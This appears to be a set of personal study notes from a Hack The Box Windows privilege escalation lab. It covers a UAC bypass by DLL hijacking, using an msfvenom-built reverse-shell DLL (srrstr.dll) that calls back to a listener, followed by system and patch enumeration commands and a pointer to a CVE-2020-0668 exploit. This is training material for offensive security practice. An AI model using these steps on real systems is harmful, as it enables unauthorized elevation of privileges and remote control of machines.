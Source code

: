 and Expand the Keys tab under Usage and look for the build number to determine the target file
**In our example SystemPropertiesAdvanced.exe is the target file, the component (from the website) is srrstr.dll (very important to note this)**
#### 4.Reviewing Path Variable
```
PS C:\htb> cmd /c echo %PATH%
```
We can potentially bypass UAC in this by using DLL hijacking by placing a malicious srrstr.dll DLL to WindowsApps folder, which will be loaded in an elevated context.
#### 5.Generating Malicious srrstr.dll DLL
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```
Transfer the file to C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\ (determined in the echo path command)
#### 6.Executing SystemPropertiesAdvanced.exe on Target Host
```
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```
#### 7.Starting nc Listener on Attack Host
```
nc -lvnp 8443
```
### Get Password Policy & Other Account Information
```
C:\htb> net accounts
```
## View Detailed Configuration Information
```
C:\htb> systeminfo
```
## Patches and Updates
### cmd
Let's first use WMI to check for missing KBs.
```
C:\htb> wmic qfe
```
#### Vulnerable Services: Enumerating Installed Programs
```
C:\htb> wmic product get name
```
Druva inSync application stands out. A quick Google search shows that version 6.6.3 is vulnerable to a command injection attack via an exposed RPC service. 
If you get Druva inSynce go to notion

```
C:\htb> wmic qfe list brief
```
#### Examining Installed Updates
We can examine the installed updates in several ways. Below are three separate commands we can use.
```
PS C:\htb> systeminfo
```
```
PS C:\htb> wmic qfe list brief
```
```
PS C:\htb> Get-Hotfix
```
CVE-2020-0668 Example for a system that is far behind on security updates 
```
https://github.com/RedCursorSecurityConsulting/CVE-2020-0668
```